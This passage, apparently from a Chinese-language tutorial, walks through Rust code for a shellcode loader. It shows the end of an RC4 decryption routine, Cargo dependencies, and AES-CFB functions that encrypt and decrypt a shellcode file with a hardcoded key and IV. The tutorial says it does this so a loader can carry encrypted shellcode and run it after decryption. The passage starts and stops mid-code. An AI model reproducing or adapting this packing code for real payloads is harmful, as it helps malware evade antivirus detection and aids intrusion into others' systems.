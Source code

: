 ```rust

    let mut shellcode: Vec<u8> = repeat(0).take(result.len()).collect();
    rc4.process(&mut result[..], &mut shellcode);

    shellcode
}
```

### AES-CFB加密
Rust要实现AES加密与加密也需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。
```toml
[dependencies]
aes="0.7.5"
hex="0.4.3"
block-modes="0.8.1"
hex-literal="0.3.3"
```

下面是实现AES-CFB加解密的代码，在加密的函数中最终返回的是Hex编码后的字符串，而解密函数最终返回的是Vec数组，同样是为了方便在shellcode loader中读取加密后的shellcode以及加载解密后的shellcode。
```rust
use aes::Aes128;
use block_modes::block_padding::Pkcs7;
use block_modes::{BlockMode, Cfb};
use hex::encode;
use hex_literal::hex;

type Aes128ECfb = Cfb<Aes128, Pkcs7>;

fn main() {
    let shellcode = include_bytes!("..\\calc.bin").as_slice();
    let key = "gWW8QklFyVIQfpDN";
    let iv = hex!("57504c385a78736f336b4946426a626f");

    println!("==128-bit AES CFB Mode==");
    println!("Key: {}", key);
    println!("iv: {}", encode(iv));

    let encrypted = enc(shellcode, key, iv);
    println!("\nEncrypted: {}", encrypted);

    let decrypted = dec(encrypted.as_str(), key, iv);
    println!("\nDecrypted: {:?}", decrypted);
}

fn enc(shellcode: &[u8], key: &str, iv: [u8; 16]) -> String {
    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let pos = shellcode.len();
    let mut buffer = [0u8; 2560];
    buffer[..pos].copy_from_slice(shellcode);

    let ciphertext = cipher.encrypt(&mut buffer, pos).unwrap();

    hex::encode(ciphertext)
}

fn dec(encrypted: &str, key: &str, iv: [u8; 16]) -> Vec<u8> {
    let binding = hex::decode(encrypted).expect("Decoding failed");
    let ciphertext = binding.as_slice();

    let key = key.as_bytes().to_vec();
```